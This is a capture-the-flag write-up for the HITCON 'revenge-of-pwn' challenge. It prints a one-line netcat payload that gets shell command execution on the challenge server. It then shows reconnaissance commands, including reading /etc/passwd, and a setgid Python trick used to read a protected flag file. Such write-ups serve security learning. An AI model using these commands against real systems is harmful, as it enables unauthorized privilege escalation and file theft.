 # revenge-of-pwn

> Have you ever thought those challenges you pwned may retaliate someday? nc 3.115.58.219 9427 revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz

Categories:
* misc
* pwn

## Solution

```
$ printf $'131\n/home/deploy/secret_python_others_should_never_know -c \'__import__("os").setgid(1001);print(open("/home/deploy/flag").read())\' 1>&2\n' | nc 3.115.58.219 9427
ELF size? (MAX: 6144)
[*] Version of pwntools: 4.3.0
[x] Opening connection to 127.0.0.1 on port 1337
[x] Opening connection to 127.0.0.1 on port 1337: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1337: Done
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

## Explanation

So basically I think we were supposed to abuse pwntools `asm` function, but I'm pretty lazy

Since we basiclaly have a shell by sending `len(cmd) + "\n" + cmd` to the socket (it executes with `bash` instead of as an ELF), I explored a little first:

```
$ ls -lah $HOME
-rwxr-sr-x 1 root exploiter 5.3M Nov 26 05:07 /home/deploy/secret_python_others_should_never_know
-rw-r----- 1 root exploiter 43 Nov 24 14:58 /home/deploy/flag
```

The setgid bit is set on `secret_python_others_should_never_know`, and it's owned by `exploiter`--and so is the flag! 

```
$ cat /etc/passwd | grep exploiter
exploiter:x:1001:1001:,,,:/home/exploiter:/bin/bash
```

So now we just run `secret_python_others_should_never_know` which is basically a copy of the `python3` binary:

```
import os
os.setgid(1001)
os.system('cat /home/deploy/flag')
```

(^ expanded payload)

